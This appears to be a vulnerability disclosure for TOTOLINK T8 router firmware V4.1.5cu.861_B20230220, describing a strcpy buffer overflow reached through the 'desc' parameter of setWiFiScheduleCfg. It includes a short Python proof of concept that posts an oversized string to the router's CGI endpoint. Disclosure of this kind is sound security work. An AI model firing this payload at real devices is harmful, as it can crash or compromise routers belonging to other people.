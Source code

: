 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWiFiScheduleCfg` function. The `v15` variable receives the `desc` parameter from a POST request. However, since the user can control the input of `desc`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902122636335](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902122636335.png)

![image-20240902122623475](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902122623475.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiScheduleCfg",
"addEffect":"1",
"enable":"1",
"desc":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
